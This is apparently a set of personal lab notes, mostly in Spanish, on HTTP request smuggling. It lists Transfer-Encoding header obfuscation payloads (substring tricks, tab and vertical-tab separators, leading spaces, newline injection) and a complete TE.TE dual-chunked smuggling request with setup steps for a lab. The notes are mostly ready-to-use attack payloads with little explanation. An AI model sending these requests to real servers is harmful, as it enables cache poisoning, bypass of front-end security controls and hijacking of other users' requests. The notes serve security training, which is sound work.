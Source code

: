 ```js
```

<hr>
## Payloads/Variaciones para T.E - T.E → `ofuscation`

```js
Transfer-Encoding: xchunked //Substring Match
Transfer-Encoding: test chunked //Substring Match por a parte


Transfer-Encoding : chunked //Space in Header Name

Transfer-Encoding: x //Header Name solo x

//En la practica para estos dos pongo el hexadecimal en burp lo modifico poniendo o 09 o 0b
Transfer-Encoding:[tab]chunked
Transfer-Encoding:[\x09]chunked //Horizontal Tab Separator

Transfer-Encoding:[tab]chunked
Transfer-Encoding:[\x0b]chunked //Vertical Tab Separator


[space]Transfer-Encoding: chunked
[\x20]Transfer-Encoding: chunked Space

X: X[\n]Transfer-Encoding: chunked
X: X[0A]Transfer-Encoding: chunked //Salto de linea 0A

Transfer-Encoding
: chunked
```

### LAB: Transfer Encoding Ofuscation Header `Dual Chunked`

* Que el backend server procese un GPOST method.  
* Connection: keep-alive
* Cambiar a HTTP/1 SIEMPRE - Cambiar a POST / HTTP/1.1
* desactivar content-length automatico

```js
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: test

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

\r\n\r\n
```

